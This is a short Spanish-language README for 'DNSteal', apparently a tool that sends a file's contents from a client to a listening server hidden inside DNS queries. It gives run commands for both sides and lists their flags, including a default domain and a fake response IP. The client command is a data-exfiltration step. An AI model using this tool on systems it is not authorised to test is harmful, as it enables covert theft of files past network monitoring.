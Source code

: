 # DNSteal

## Uso

#### 💻 Ejecutar el programa:

* **Server**

```bash
python3 server.py
```

<img src="/media/Client.png" width="500" title="use example">

* **Client**

```bash
python3 client.py -s Server_IP -f File
```

<img src="./media/Server.png" width="500" title="use example">

### 🚩 Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```
